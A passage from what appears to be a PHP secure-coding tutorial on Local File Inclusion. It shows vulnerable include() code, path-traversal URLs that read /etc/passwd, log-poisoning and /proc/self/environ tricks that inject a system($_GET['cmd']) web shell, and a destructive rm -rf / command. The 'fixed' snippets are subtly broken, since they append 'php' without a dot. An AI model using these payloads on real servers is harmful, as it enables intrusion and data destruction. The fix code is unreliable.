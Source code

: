 test_fixed.php
```php
<?php
$allowedThemes = array('pink.php', 'black.php');
$theme = $_GET['theme'].'php';
if(in_array($theme, $allowedThemes) && file_exists($theme)){
    include $theme;
}
?>
```

##2) Local File Inclusion
####Affected PHP Functions
- require
- require_once
- include
- include_once

####Vulnerable Codes

test.php
```php
<?php
$theme = 'themes/'.$_GET['theme'];
include $theme;
?>
```
test1.php
```php
<?php
$theme = 'themes/'.$_GET['theme'];
include $theme.'.php';
?>
```
####Attack
- Reading Local Filesystem File:
	- http://localhost/lfi/index.php?theme=../../../../../../../../../../../../../../etc/passwd
- Uploading PHP Shell:
	- Exploiting Apache Access Log
		- http://localhost/<?php system($_GET['cmd']); ?>
		- http://localhost/lfi/index.php?theme=../../../../../../../../../../../../../../var/log/apache2/access.log&cmd=rm -rf /
	- proc/self/environ method
		- Tamper http User-Agent into <?php system($_GET['cmd']); ?>
		- http://localhost/lfi/index.php?theme=../../../../../../../../../../../../../../proc/self/environ&cmd=rm -rf /

####How to fix
- Validate with array of allowed files
- Don't allow special chars in variables
- filter the dot "." and slash "/"
- filter "http" , "https" , "ftp" and "smb"

test_fixed.php
```php
<?php
$allowedThemes = array('pink.php', 'black.php');
$theme = $_GET['theme'].'php';
if(in_array($theme, $allowedThemes) && file_exists($theme)){
    include 'themes/'.$theme;
}
?>
```
